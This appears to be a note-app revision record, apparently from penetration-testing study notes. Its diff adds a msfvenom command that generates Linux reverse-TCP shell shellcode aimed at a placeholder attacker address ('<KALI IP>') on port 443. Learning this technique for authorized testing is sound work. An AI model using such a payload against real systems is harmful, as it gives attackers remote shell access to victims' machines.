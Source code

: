 id: 51443e49221a4b8387c323ecf97884a0
parent_id: bfb7ffbf391a47768fb3db25419482a6
item_type: 1
item_id: d6bd606a6fe84a1089b8a515320ff3f5
item_updated_time: 1643210811950
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"msfvenom\"],[1,\"\\\n\\\n> msfvenom -p linux/x86/shell\\\\_reverse\\\\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 -b \\\"\\\\\\\\x&lt;badchars&gt;\\\" -f py -v shellcode\"]],\"start1\":1045,\"start2\":1045,\"length1\":8,\"length2\":129}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-26T15:35:50.822Z
created_time: 2022-01-26T15:35:50.822Z
type_: 13